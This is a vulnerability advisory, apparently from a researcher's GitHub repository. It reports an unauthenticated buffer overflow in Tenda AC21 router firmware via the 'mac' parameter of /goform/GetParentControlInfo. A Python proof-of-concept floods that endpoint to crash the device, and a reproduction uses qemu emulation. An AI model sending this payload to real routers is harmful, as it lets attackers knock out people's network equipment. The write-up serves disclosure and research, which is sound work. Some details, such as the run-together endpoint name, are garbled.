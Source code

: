 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC21（AC21V1.0re_V16.03.08.16）
## Overview
There is a stack-based buffer overflow vulnerability in the Tenda Wi-Fi 5 Router AC21 device running the firmware version AC21V1.0re_V16.03.08.16. Due to the lack of restrictions on certain parameters in the GetParentControlInfo function and the absence of boundary checks, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint: /goform/GetParentControlInfosub_433BE4formDefineTendDa.

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd. ([https://www.tenda.com.cn](https://www.tenda.com.cn))
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC21 device
+ **Affected Version**: AC21V1.0re_V16.03.08.16
+ **Attack Vector**: Exploit functions without boundary checks and with insufficient parameter restrictions, using carefully constructed payloads to cause a stack-based buffer overflow
+ **Impact**:
    - Denial of Service (Dos)
+ **Affected Component**: /goform/GetParentControlInfo, sub_433BE4, formDefineTendDa
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/3742](https://www.tenda.com.cn/material/show/3742)

## Discovery
This vulnerability was discovered by analyzing the firmware (US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin). The following call chain exists in the squashfs-root/bin/httpd file:  
main → sub_433BE4 → formDefineTendDa → GetParentControlInfo

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/main%E8%B0%83%E7%94%A8.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/formDefineTenda1.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/formDefineTenda2.png)

s is a buffer allocated via malloc(0x254u), with a size of 0x254 bytes and initialized to all 0s. The target address is s + 2, meaning data copying starts from the 3rd byte of s, and the remaining available space is 604 - 2 = 602 bytes. Var is the external input obtained via websGetVar(a1, "mac", &unk_4D999C) (it is the value of the user-controllable "mac" parameter). strcpy will continuously copy characters from Var until encountering \0, without verifying at all whether the target buffer can accommodate all the data. As external input, the length of Var may exceed 602 bytes.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Therefore, carefully designing a payload at the interface path /goform/GetParentControlInfo can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 512000
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.190.239/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use qemu to emulate the httpd extracted from US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin (note that this file is for the mips little-endian architecture, and IDA needs to be used to modify httpd to adapt to the emulation environment).

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/patch.png)

As shown in the figure below, the emulation is successful.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/payload%24%E4%BB%BF%E7%9C%9F.png)

Use this script to trigger the stack overflow.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/%E8%A7%A6%E5%8F%91.png)

#### Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint. 
